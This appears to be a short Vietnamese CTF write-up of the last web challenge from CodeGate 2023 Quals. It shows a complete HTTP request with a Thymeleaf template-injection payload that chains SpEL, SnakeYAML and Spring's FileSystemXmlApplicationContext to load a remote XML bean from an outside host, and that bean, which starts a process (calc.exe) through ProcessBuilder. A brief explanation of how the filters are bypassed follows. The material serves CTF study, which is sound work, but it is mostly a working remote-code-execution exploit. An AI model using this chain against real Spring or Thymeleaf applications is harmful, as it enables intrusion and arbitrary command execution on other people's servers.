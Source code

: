 Đây là một bài brief do mình ngồi tham khảo solution và làm lại của bài web cuối cùng trong đợt CodeGate 2023 Quals hồi đầu năm

Request: 
```http
GET /<@urlencode>__|*bla**{"a"+@servletContext.setAttribute("t","".class.forName("org.thymeleaf.TemplateEngine").newInstance())+@servletContext.getAttribute("t").setDialects("".class.forName("org.thymeleaf.spring6.dialect.SpringStandardDialect").newInstance())+@servletContext.getAttribute("t").process(("[["+"*"+"{T"+"(org.yaml.snakeyaml.Yaml).newInstance().load("+"".copyValueOf("a".toCharArray()[0].toChars(39))+thymeleafRequestContext.httpServletRequest.getParameterMap().values()[0][0]+"".copyValueOf("a".toCharArray()[0].toChars(39))+")}"+"]]"),"".class.forName("org.thymeleaf.context.Context").newInstance())+""}|__<@/urlencode>?a=<@urlencode>aaa: !!org.springframework.context.support.FileSystemXmlApplicationContext [ "http://172.23.42.39:8082/exploit.bean" ]<@/urlencode>%0a HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION=MTA5MjljNmEtOGRhMy00YTlhLWI0MmItOTc2ZTc5ZDM5NDZl
Connection: close


```

exploit.bean:
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <array>
                <value>calc.exe</value>
            </array>
        </constructor-arg>
        <property name="any" value="#{ pb.start() }"/>
    </bean>
</beans>
```

Brief: dùng syntax **Literal Substitution** của Thymeleaf để bypass phần check trong phần preprocess của thymeleaf, từ đó gọi lại `org.thymeleaf.TemplateEngine` 1 lần nữa để parse EL nhằm bypass đoạn check `T(`. Sử dụng class `org.yaml.snakeyaml.Yaml` vì nó không nằm trong blacklist của thymeleaf, lợi dụng cú pháp `Secondary Tag Handle` mà snakeyaml implement để load 1 class tùy ý, load đến class `org.springframework.context.support.FileSystemXmlApplicationContext` để parse một remote xml file nhằm instantiate class `ProcessBuilder` và lợi dụng đặc tính parse SpEL ở state `Populate` của beans để gọi đến method `start` của bean vừa khởi tạo (ở đây là `ProcessBuilder`)

